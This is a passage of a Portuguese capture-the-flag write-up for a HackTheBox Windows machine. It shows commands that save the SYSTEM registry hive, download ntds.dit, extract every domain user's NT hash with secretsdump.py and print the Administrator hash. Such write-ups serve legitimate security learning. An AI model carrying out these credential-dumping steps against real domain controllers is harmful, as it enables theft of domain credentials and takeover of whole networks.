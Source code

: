 ```powershell
reg save HKLM\system system

download "C:/Windows/System32/spool/drivers/color/system"
download "C:/Windows/System32/spool/drivers/color/ntds.dit"
```

Com esse 2 ficheiros, é possível extrair todos os hashes NT dos usuário de domínio

```powershell
secretsdump.py -ntds ntds.dit -system system LOCAL > users_domain_hashes
cat users_domain_hashes | grep "Administrator"
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

Aqui está. O hash NTLM do usuário Administrator do domínio. Validar com crackmapexec

![WinRM Administrator](Assets/HTB-Windows-Hard-Blackfield/Administrator.png)

Somos donos da máquina! E até de todas as máquina ligadas ao Domain Controller... Mas é apenas um CTF, então é só de esta máquina lol. Com isso, já podemos ver as flags
